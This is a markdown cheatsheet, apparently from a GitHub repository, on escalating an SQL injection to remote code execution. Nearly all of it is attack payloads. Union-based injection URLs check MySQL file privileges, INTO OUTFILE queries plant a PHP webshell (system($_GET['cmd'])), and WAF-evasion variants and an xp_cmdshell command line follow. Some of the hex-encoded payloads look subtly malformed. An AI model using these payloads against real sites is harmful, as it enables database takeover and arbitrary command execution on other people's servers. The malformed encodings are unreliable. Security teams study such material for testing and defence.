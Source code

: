 # SQL Privilege Escalation

## Identifying the write user's permission
If the database user has write permission, it allows an attacker to upload arbitrary files in the server.  

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table:  
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

1. The most common way to find a path, is by searching the temporary path that SQL has, to do that we simply use the following query, to get some absolute path directories:
```sql
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```

Look at the output, you should look after a directory, something like this:
**/var/mysqltmp**  

This means that we can upload files to **/mysqltmp**

2. Another way (when website likes to Error) is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Let's use the following PHP code to inject it into an arbitrary file:
```php
<?php system($_GET[‘cmd’]); ?>
```

Below is the PHP script converted to 0xHEX format:  
```0xa3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e```

The following queries (same goal, different approach) is to inject this php code into an arbitrary file which we will name it **webshell.php** (for this part you MUST assume/know the absolute path of the file you want to upload, otherwise it won't work. Hint: use [@@slave_load_tmpdir](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/edit/main/Privilege%20Escalation/README.md#finding-absolute-path) to find the temporary directory located in the server).  

```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select 1,2,3,"<?php system($_GET['cmd']); ?>",5,6,7,8,9,10,11,12 into outfile "C:\\xampp\\htdocs\\webshell.php'-- -
```  
```sql
http://domain.com/index.php?id=1' Union Select '' into outfile '/var/www/html/webshell.php' FIELDS TERMINATED BY "<?php system($_GET['cmd']); ?>"
```  

If WAF comes into the play and makes it unable for you to upload webshell, try using the following concat() functions to load the PHP script:
```sql
unhex(hex(/*!50000group_concat*/(/*!500000x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d*/)))  
%0AcOnCat(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
/**//*!12345cOnCat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)  
unhex(hex(/*!12345concat*/(0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d)))  
```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```

## OS Command Execution

Via **xp_cmdshell**:  
```something'); exec xp_cmdshell "ping 10.10.x.x"--``` 
